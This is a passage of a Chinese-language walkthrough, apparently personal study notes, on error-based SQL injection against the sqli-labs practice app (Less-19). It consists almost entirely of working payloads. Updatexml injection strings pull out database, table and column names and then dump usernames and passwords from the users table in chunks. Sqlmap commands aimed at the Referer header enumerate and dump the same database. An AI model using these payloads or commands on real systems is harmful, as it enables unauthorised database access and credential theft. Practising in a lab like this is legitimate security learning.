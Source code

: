 ```mysql
' and updatexml(1,concat(0x7e,database(),0x7e),1) or '1'='1
```

![image-20240807150109950](../../../../repo/assets/19.SQL注入/image-20240807150109950.png)

#####  表名

```mysql
' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
```

![image-20240807150151943](../../../../repo/assets/19.SQL注入/image-20240807150151943.png)

##### 字段名

```mysql
' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
```

![image-20240807150217697](../../../../repo/assets/19.SQL注入/image-20240807150217697.png)

#####  字段值

```mysql
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),63,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),94,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),125,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),156,31),0x7e),1) or '1'='1
' or updatexml(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),187,31),0x7e),1) or '1'='1
```

![image-20240807150245173](../../../../repo/assets/19.SQL注入/image-20240807150245173.png)

#### Sqlmap报错注入 less-19

`Referer`

##### --data

```bash
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer --dbs
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security --tables
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security -T users --column  
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security -T users --dump
```
